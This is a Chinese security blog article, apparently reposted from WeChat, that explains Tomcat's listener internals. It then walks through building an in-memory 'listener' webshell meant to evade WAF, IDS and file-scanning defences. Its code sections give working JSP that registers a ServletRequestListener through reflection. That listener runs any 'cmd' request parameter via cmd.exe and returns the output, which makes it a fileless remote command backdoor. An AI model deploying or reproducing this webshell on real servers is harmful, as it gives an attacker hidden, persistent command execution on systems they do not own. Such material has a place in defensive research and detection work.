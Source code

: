 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/msjeTiQfAsLbGUHI36-ZsQ)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs3wN9B5nbnc4SLeLK659YicuTaJ3eicWA6pibZgians1GgB5G9FNricooBHeQ/640?wx_fmt=png)

  

  

  

背景

  

  

  

基于现阶段红蓝对抗强度的提升，诸如 WAF 动态防御、态势感知、IDS 恶意流量分析监测、文件多维特征监测、日志监测等手段，能够及时有效地检测、告警甚至阻断针对传统通过文件上传落地的 Webshell 或需以文件形式持续驻留目标服务器的恶意后门。结合当下形势，对 Tomcat 容器如何利用 Listener 实现的内存 Webshell 进行研究学习。

  

  

  

声明

  

  

  

由于传播或利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，此文仅作交流学习用途。

  

  

  

什么是 Listener

  

  

  

Listener 译文监听器，顾名思义用于监听事件的发生或状态的改变。

  

  

  

Tomcat 为什么要引入 Listener

  

  

  

Tomcat 在启动、运行、关闭等各个过程中，由于环境中对象之间的依赖关系复杂，对象的属性和状态会发生各种改变，一个对象的改变需要通知其他依赖于它的对象，以此保证高度的协同合作，而 Listener 的引入，正是为了解决该问题。

这种行为模式，也称为观察者模式。

  

  

  

Listener 的实现和类型

  

  

  

Tomcat 使用两类 Listener 接口分别是 org.apache.catalina.LifecycleListener 和原生 Java.util.EvenListener。

LifecycleListener 增加了生命周期管理，主要用于四大容器类 StandardEngine、StandardHost、StandardContext、StandardWrapper。相关的类和接口列出如下，看下图三，Lifecycle 接口定义了运行状态，用于容器状态的判断和管理。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs3RMI9niaTVS8KrBWYzXMRibhsAbv2HolBKJ6vC5jUAUDAntIuEQ5KEY0Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs37cjd78fFVHYoU4jRL1ia98HsnyLpbAVZ4RRrnEBe2yKib0muY2aEbYvA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs3pn5BzMxnzsE8Go8cGndhUn7ycv0AMVyD9JUvkaImKeVwRMxm0drHVg/640?wx_fmt=png)

但我们这次不讲 LifecycleListener，原因是它们多用于 Tomcat 初始化启动阶段，那时客户端的请求还没进入解析阶段，也就是说不能通过请求，随心所欲根据我们的输入执行命令。  
所以，让我们来看看 EvenListener。EvenListener 接口很简单，简单到啥也没有。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs3q1ybJNIjYTcmyic9f7IJkozhYz39PKM1dj7e5aYbm3ooibaEkx6fac2g/640?wx_fmt=png)

原生 Tomcat 中，自定义了很多继承于 EventListener 的接口，应用于各个对象的监听。下图列举一些常见的监听器接口。  

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs3Umnmv25icGKZpVb3R3HibnldcxhAXI754qvq7ZkxWfYragDaBFiaSicNVw/640?wx_fmt=png)

我们主要来关注箭头指向的 ServletRequestListener，可能会好奇这么多不选，而要挑 ServletRequestListener，既然要实现 Webshell，理所当然希望它能接收我们任意的输入以及随心所欲控制响应，因此我们需找到一个 Tomcat 解析了请求后但仍未响应的中间环节。而 ServletRequestListener 是一个很好选择，来看看为什么。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs3W9v9k0cYiboUibLKAU6Wx6KIZdzODGRYtWmezcQnpaUFCsx1LeFfzFrg/640?wx_fmt=png)

ServletRequestListener 用于监听 ServletRequest 的生成和销毁，也就是当我们访问任意资源，无论是 servlet、jsp 还是静态资源，都会触发 requestInitialized 方法。继续看，在哪个环节，什么时候，哪个地方会调用监听器。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs3IUbxMKnbC0Mw9qDib7Ualaia3QWowwb15ANC62ibYrnpjWZX16kn8e0eA/640?wx_fmt=png)

具体在 StandardHostValve 调用下一个阀之前调用 context.fireRequestInitEvent(request.getRequest())，进而调用 ServletRequestListener。

了解 Tomcat 处理流程的应该知道，请求在 CoyoteAdapter#service() 方法中生成 ServletRequest 对象并完成解析，下个流程是到 Engine、Container 中进行处理，而 StandardHostValve 正是 Container 中的环节，到这一步时，我们的请求参数已经被 Tomcat 解析完毕并保存在 Request 对象里了，继续往下看。

此处的 context 是 StandardContext，来看 fireRequestInitEvent()。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs3xhiaGJInbfQA4O3DRiaDuKjseLRu5GMSMys95arKH4zZynEeBZg6I9Tg/640?wx_fmt=png)

通过 this.getApplicationEventListeners(); 获取成员属性 ApplicationEventListeners 中的监听器，然后生成 ServletRequestEvent 事件对象，而后通过 for 循环，遍历调用 (ServletRequestListener) listener.requestInitialized(event);

而 requestInitialized 就是继承 ServletRequestLisner 接口要实现的方法。

经过以上分析，大致了解，Tomcat 执行到 StandardHostValve#invoke() 时，获取存储在 StandardContext.ApplicationEventListeners 中的监听器，并遍历调用 listener#requestInitialized()  
那注入 listener 马，我们只需要新建一个继承 ServletRequestLisner 接口的监听器并在 requestInitialized 方法中实现我们想要的任意功能，然后将该实例添加到 StandardContext 的 ApplicationEventListeners 变量就大功告成了。

默认情况 ApplicationEventListeners 为空，不存在监听器，这里如此设计是为了给开发者提供更多的功能扩展空间。

  

  

  

编写代码

  

  

  

导入的包：

```
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>

```

编写监听器：

```
<%!
    public class myListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {

            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().getWriter().write(out);
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }

        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

```

```
// 一个小路径快速获得StandardContext
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
%>

```

添加监听器:

```
<%
myListener listenerdemo = new myListener();
    context.addApplicationEventListener(listenerdemo);
%>

```

  

  

  

补充细节

  

  

  

（1）关于 *.jsp 页面中的 request 对象实际上是 RequestFacade 对象，这里采用的是门面模式，将复杂的对象转化成一个简单易操作的对象，提供一个简单入口的同时也是为了保证原有对象的独立性。而 RequestFacade 就是 org.apache.catalina.connector.Request 对象的门面。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs34Ibr2JmSVju0Nm9OSzibMCu032j8NNYrLpaKkDFvnjC8JZ3E5RwcHUQ/640?wx_fmt=png)

（2）还记得调用 ServletRequestListener 的入口不？context.fireRequestInitEvent(request.getRequest())，这里的 request.getRequest() 得到的也是 Request 对象的门面，可别搞错咯。所以上面我使用了反射得到 RequestFacade 里的 Request，进而得到 Response 控制输出。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs3R1Hrb7OiaEf0y3PBpfFdPXAnwgcCiaMtb45QEtDxkLh6c4gfuI869LEA/640?wx_fmt=png)

  

  

  

效果

  

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6PibV9pl64N7CAkvU28mQs3RCyd2aKSnaRl7GPuRyUmnJEyvW19uqPooialoiaTXayzQrOFPRia1niceA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6OLwHohYU7UjX5anusw3ZzxxUKM0Ert9iaakSvib40glppuwsWytjDfiaFx1T25gsIWL5c8c7kicamxw/640?wx_fmt=png)
----------------------------------------------------------------------------------------------------------------------------------------------

  

- End -  

精彩推荐

[CVE-2020-2555——Coherence 反序列化初探](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649737519&idx=1&sn=9edab2f2de7cb979e8f45c5c9712e374&chksm=888cf940bffb70566b55a38c0820fa7038acecd881679868e5d1f278cf1a1f3f086c0f6b92ca&scene=21#wechat_redirect)  

[纵横杯线上初赛部分题解](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649737447&idx=1&sn=0891747d7718b1db6e20ed378fd12a2d&chksm=888cf888bffb719ef262466c6b9fd34dac6377cd4efd303dd7e9b8da30dd60d66572f515fb6d&scene=21#wechat_redirect)  

[越南已经成为复杂供应链攻击的主要目标](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649737407&idx=1&sn=e22caa66b5e464df0235fe4241867b67&chksm=888cf8d0bffb71c631894ab899988a15dee8018116dffa2c557b8de5356a07c9a1169d9821fb&scene=21#wechat_redirect)  

[芬兰议会称议员邮箱遭黑客入侵](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649737406&idx=1&sn=525fdc25525e80a0e0c7086befed67bb&chksm=888cf8d1bffb71c7c38f955127956ab208f18b2977bab0ec2f2cfde6ae7901ccc8aae595e704&scene=21#wechat_redirect)

  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ok4fxxCpBb5ZMeq0JBK8AOH3CVMApDrPvnibHjxDDT1mY2ic8ABv6zWUDq0VxcQ128rL7lxiaQrE1oTmjqInO89xA/640?wx_fmt=gif)  

---------------------------------------------------------------------------------------------------------------------------------------------------

**戳 “阅读原文” 查看更多内容**